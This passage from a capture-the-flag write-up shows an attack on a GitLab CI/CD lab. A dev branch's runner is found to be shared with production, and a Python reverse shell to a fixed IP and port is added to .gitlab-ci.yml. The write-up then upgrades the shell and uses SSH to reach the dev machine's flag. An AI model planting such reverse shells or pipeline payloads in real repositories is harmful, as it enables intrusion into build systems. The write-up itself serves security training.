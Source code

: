 Switch to the `dev` environment
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228002258.png]]
Make some sort of change to `README.md` and create a merge request. 
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228002410.png]]

As you can see the merge request on dev was successful and `README` was updated to display test
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228002634.png]]

Now let's look at the `Build->Jobs` and check the runner of the merge request we just made
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228002518.png]]

Now lets look at one for a production merge request. They are the same. This means by compromising the `dev` runner we can do so for the `prod` runner too.
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228002818.png]]

On the dev branch let's add our trusty reverse shell script. To the `.gitlab-ci.yml` file, and merge it in.![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228003905.png]]
```
stages:
  - deploy

production:
  stage: deploy
  script:
    - /usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.50.4.149",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
    - 'echo "Deploying to ${CI_ENVIRONMENT_NAME}"'
  environment:
    name: ${CI_JOB_NAME}
```
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228003955.png]]

Now we are on GRunner02, but we need to get to the dev and prod machines to compromise them. Let's explore some ways to do that
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228010227.png]]
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228010310.png]]
 
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228004557.png]]
Unfortunately we are not able to use SSH because we do not have a good shell, this caused it to crash. 
Let's get our shell back by rerunning the pipeline
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228005728.png]]

Now let's get a proper shell and try again
````bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
````
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228010439.png]]
Now let's try to ssh again
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228010602.png]]
Now we are in, let's complete the steps from the mother
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228011124.png]]
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228010938.png]]
Now let's verify with the mother 
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228010957.png]]
There is the flag from the `DEV` machine

